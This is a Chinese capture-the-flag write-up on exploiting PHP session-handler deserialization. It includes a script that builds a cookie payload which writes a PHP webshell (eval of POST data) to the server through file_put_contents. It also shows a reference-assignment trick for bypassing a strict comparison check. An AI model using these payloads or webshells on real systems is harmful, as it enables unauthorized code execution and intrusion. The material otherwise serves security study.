 #### 例题

- 在index.php中，可以看到1处写错了，因此可以构造`$_SESSION['limit']`的值

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669865526369-f84bd4e4-64b2-4230-9ddd-02775745d6cc.png#averageHue=%23201f1e&clientId=uaefec989-846a-4&from=paste&height=252&id=uf3ec63a4&originHeight=554&originWidth=1949&originalType=binary&ratio=1&rotation=0&showTitle=false&size=119775&status=done&style=none&taskId=u29d53a2e-0dd0-4cb5-b2f8-c5235540971&title=&width=885.9090717075289)

- 在check.php中包含了inc.php

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669866913446-5baf2efd-d0f8-433f-ac02-6e5175b2908a.png#averageHue=%23201f1e&clientId=uaefec989-846a-4&from=paste&height=160&id=u28d0b4b0&originHeight=351&originWidth=1544&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35985&status=done&style=none&taskId=u003b013d-bec3-45f2-8dbf-7d8e6462fe0&title=&width=701.8181666066827)

- 在inc.php中，用php处理器读，和前面不一样，开启了session_start()，会反序列化数据

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669866819050-789983ac-4da0-40c7-bbfb-b1f05052d9e7.png#averageHue=%2321201f&clientId=uaefec989-846a-4&from=paste&height=265&id=uf5401725&originHeight=584&originWidth=1995&originalType=binary&ratio=1&rotation=0&showTitle=false&size=111880&status=done&style=none&taskId=u50907c77-d101-4f00-a040-e69f5a2326a&title=&width=906.8181621634275)

- 且这里可以构造User，用file_put_contents去上传🐎

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669866836718-930b9f6d-ddd5-462e-a883-47a43f235c4a.png#averageHue=%23201e1e&clientId=uaefec989-846a-4&from=paste&height=325&id=ua814e513&originHeight=715&originWidth=1968&originalType=binary&ratio=1&rotation=0&showTitle=false&size=120264&status=done&style=none&taskId=u585a681d-04f7-4132-b454-690446d68a6&title=&width=894.5454351567045)

**综上所述：我在index.php中构造一个带 |  的序列化数据，用Cooike传给session，在访问check.php页面时，由于它包含了inc.php，inc.php中用php处理器读取数据，并session_start()反序列化数据，将index.php中构造的数据注入到file_put_contents函数中。**

```php
<?php
class User{
    public $username;
    public $password;
    public $status;

}
$a = new User("1.php",'<?php eval($_POST[1]);phpinfo();?>');
echo base64_encode("|".serialize($a));
?>
```

- 这里上传马由于没有回显，不知道是否成功，因此加一个Phpinfo。

### 引用传值绕过==

:::info
ctmd

- 我想到赋值，但是没想到引用
  :::

#### 引用赋值的序列化

```php
<?php
class ctfshowAdmin{
    public $token;
    public $password;

    public function __construct($t,$p){
        $this->token=$t;
        $this->password = &$this->token;
    }
    public function login(){
        return $this->token===$this->password;
    }
}
$a = new ctfshowAdmin('123','123');
echo serialize($a);
?>
```
